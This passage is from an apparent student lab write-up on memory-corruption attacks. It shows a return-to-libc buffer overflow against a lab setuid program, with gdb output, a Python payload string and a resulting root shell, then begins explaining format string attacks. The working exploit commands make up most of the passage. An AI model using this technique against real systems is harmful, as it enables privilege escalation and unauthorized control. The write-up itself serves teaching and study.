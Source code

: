 (gdb)
<span class="hljs-number">0xffffdca3</span>:     <span class="hljs-string">"_=/usr/bin/gdb"</span></code></pre>

<p>This is how you figure out the address of the whole environment table. Step through it ad figure out where is the <code>EVIL</code> variable stored.</p>

<pre class="prettyprint"><code class=" hljs bash">(gdb)
<span class="hljs-number">0</span>xffffddbc:     <span class="hljs-string">"EVIL=/bin/sh"</span>
(gdb) x/s <span class="hljs-number">0</span>xffffddc1
<span class="hljs-number">0</span>xffffddc1:     <span class="hljs-string">"/bin/sh"</span></code></pre>

<p>Perfect! Now we have an address for <code>/bin/sh</code>. Next let’s add this to the exploit string. And try it out inside <code>gdb</code> first</p>

<pre class="prettyprint"><code class=" hljs tex">(gdb) run <span class="hljs-formula">$(python -c 'print "A"*264+"<span class="hljs-command">\x</span>90<span class="hljs-command">\x</span>85<span class="hljs-command">\x</span>04<span class="hljs-command">\x</span>08<span class="hljs-command">\xb</span>8<span class="hljs-command">\x</span>85<span class="hljs-command">\x</span>04<span class="hljs-command">\x</span>08<span class="hljs-command">\xc</span>6<span class="hljs-command">\xdd</span><span class="hljs-command">\xff</span><span class="hljs-command">\xff</span>"')
Starting program: /c0re/attacklib1 $</span>(python -c 'print "A"*264+"<span class="hljs-command">\x</span>90<span class="hljs-command">\x</span>85<span class="hljs-command">\x</span>04<span class="hljs-command">\x</span>08<span class="hljs-command">\xb</span>8<span class="hljs-command">\x</span>85<span class="hljs-command">\x</span>04<span class="hljs-command">\x</span>08<span class="hljs-command">\xc</span>6<span class="hljs-command">\xdd</span><span class="hljs-command">\xff</span><span class="hljs-command">\xff</span>"')
running as uid = 1030, euid = 1030
<span class="hljs-formula">$</span></code></pre>

<p>Yes! We spawn a shell! <br>
Now let’s try it with the program itself. Note, there is another program with <code>euid=0</code> called <code>attacklib1</code> so you don’t have t worry about the discrepancy between your <code>uid</code> and <code>euid</code></p>



<pre class="prettyprint"><code class=" hljs tex">rwang74@4550866279a6:/c0re<span class="hljs-formula">$ /c0re/attacklib1 $</span>(python -c 'print "A"*264+"<span class="hljs-command">\x</span>90<span class="hljs-command">\x</span>85<span class="hljs-command">\x</span>04<span class="hljs-command">\x</span>08<span class="hljs-command">\xb</span>8<span class="hljs-command">\x</span>85<span class="hljs-command">\x</span>04<span class="hljs-command">\x</span>08<span class="hljs-command">\xc</span>1<span class="hljs-command">\xdd</span><span class="hljs-command">\xff</span><span class="hljs-command">\xff</span>"')
running as uid = 1030, euid = 0 
<span class="hljs-special">#</span> whoami
<span class="hljs-special">#</span> root</code></pre>

<p>Yayyyyy! We exploited a program without inject shellcode!</p>

<h2 id="format-string-attack">Format String Attack</h2>
<p>What is a format string? Because I never paid attention to the lecture (well I actually skipped a lot), this concept was really hard for me to understand. I’ll try to summarize the concept as best as I can, but if you still find it not very clear, you can check out <a href="https://www.youtube.com/watch?v=esxEaHrMgI8&amp;list=PLMGUdaTHpFQLmSAk5_cTM8Y502hhVpeNf&amp;index=14&amp;t=2388s">Ymir’s Youtube video</a> or <a href="https://www.exploit-db.com/docs/28476.pdf">this websit</a>.</p>
<p>Recall when you write C, the first line of code you wrote, it is possibly something like this. <br>
<code>printf("%s\n","Hello World!")</code> <br>
The symbol <code>%s</code> here is the usage of a format string. It tells the system to interpret the variable <code>"Hello World"</code> you feed to the <code>printf()</code> function as a string. Actually there are more formats like this, here is a table of several common formats . </p>
